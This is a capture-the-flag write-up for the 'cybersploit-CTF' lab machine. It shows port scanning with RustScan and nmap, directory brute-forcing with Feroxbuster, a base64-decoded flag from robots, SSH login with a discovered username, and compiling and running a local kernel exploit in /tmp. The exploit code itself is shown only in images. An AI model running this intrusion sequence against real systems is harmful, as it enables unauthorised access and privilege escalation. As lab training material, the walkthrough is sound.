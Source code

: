 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.187.92 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.187.92:22
Open 192.168.187.92:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 03:25 EDT
Initiating Parallel DNS resolution of 1 host. at 03:25
Completed Parallel DNS resolution of 1 host. at 03:25, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:25
Scanning 192.168.187.92 [2 ports]
Discovered open port 80/tcp on 192.168.187.92
Discovered open port 22/tcp on 192.168.187.92
Completed Connect Scan at 03:25, 0.17s elapsed (2 total ports)
Nmap scan report for 192.168.187.92
Host is up, received user-set (0.17s latency).
Scanned at 2023-10-23 03:25:19 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

```
http://192.168.187.92/
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/2b132ff5-f7b3-431e-b8d8-aa32c3efb864)
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/c944b990-66f2-4a8b-b39b-9d3b0cb48df3)
```
username:itsskv
```

Feroxbuster
```
> feroxbuster -u http://192.168.187.92 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-recursion --dont-extract-links --random-agent --filter-status 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.187.92
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       50l      133w     2333c http://192.168.187.92/
200      GET       50l      133w     2333c http://192.168.187.92/index
200      GET        1l        1w       53c http://192.168.187.92/robots
200      GET        0l        0w  3757743c http://192.168.187.92/hacker
[####################] - 5m     87650/87650   0s      found:4       errors:0      
[####################] - 5m     87650/87650   290/s   http://192.168.187.92/  
```

```
http://192.168.187.92/robots
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/9b2f982e-ac4d-4d7e-9b4d-c2728b57dc52)
```
> echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 --decode
cybersploit{youtube.com/c/cybersploit}%   
```

SSH as `itsskv`
```
> ssh itsskv@192.168.187.92
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/03023a8f-5f2f-449d-bc58-2fdfb37d81f3)

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:~$ cat /etc/issue
Ubuntu 12.04.5 LTS \n \l
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/340443b1-3c1f-4754-a82b-3ef77be63321)


![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/43412bd1-d9a0-4281-9181-b5bfb342aba9)
```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ nano exploit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x exploit.c 
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/8480e4ea-72ec-499a-bb79-496f5e2570a2)

```
itsskv@cybersploit-CTF:/tmp$ gcc exploit.c -o exploit
itsskv@cybersploit-CTF:/tmp$ ./exploit
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/75120969-2663-440d-8eb3-99bdc9af5605)

